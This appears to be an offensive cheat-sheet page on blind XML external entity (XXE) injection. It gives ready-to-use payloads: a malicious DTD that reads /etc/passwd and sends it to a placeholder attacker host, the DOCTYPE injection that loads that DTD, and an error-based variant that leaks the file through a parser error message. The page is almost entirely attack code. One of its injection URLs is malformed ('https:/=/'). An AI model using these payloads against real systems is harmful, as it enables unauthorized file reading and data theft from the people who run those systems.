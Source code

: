 #xmli #xxe #xml

# By Sending to External Server
**Warning:** Due to the API that validate characters used by XML parsers, this technique might not work with some file contents like newline characters.

## Attacker Machine
Expose this file on a web server (`/malicious.dtd`):
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://[ATTACKER_IP]/?c=%file;'>">
%eval;
%exfiltrate;
```

## Code
```xml
<?xml version="1.0" encoding="UTF-8"?>
<productId>1</productId>
```

## Injection (XML Parameter)
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY % myParam SYSTEM "https://[ATTACKER_IP]/malicious.dtd"> %myParam;]>
<productId>1</productId>
```


# By Provoking an Error Message 
## Attacker Machine
Expose this file on a web server (`/malicious.dtd`):
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

## Code
```xml
<?xml version="1.0" encoding="UTF-8"?>
<productId>1</productId>
```

## Injection (XML Parameter)
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY % myParam SYSTEM "https:/=/[ATTACKER_IP]/malicious.dtd"> %myParam;]>
<productId>1</productId>
```